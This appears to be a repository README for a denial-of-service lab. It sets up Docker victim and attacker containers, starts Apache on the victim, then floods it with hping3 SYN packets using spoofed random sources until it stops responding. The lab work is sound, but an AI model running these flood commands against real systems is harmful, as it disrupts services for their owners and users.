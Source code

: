 ### Run 
Use docker to run ubuntu 16.04 victim and attacker
```
docker pull ubuntu:16.04
```
```
docker run --cap-add=NET_ADMIN -it --name victim -p 8080:80 ubuntu:16.04 /bin/bash
```
```
docker run -it --name attacker ubuntu:16.04 /bin/bash
```
Install and run apache in victim
```
apt-get install -y apache2
service apache2 start
```
Enter to apache web in http:<victim-ip>:8080, you will see It works!
Install hping3 in attacker
```
apt-get install -y hping3
```
Inspect IP of victim and attack 
```
hping3 --flood --rand-source -p 80 <victim-ip>
```
or 
```
hping3 -i u1 -S -p 80 172.17.0.2
```
Ping victim-ip and get no response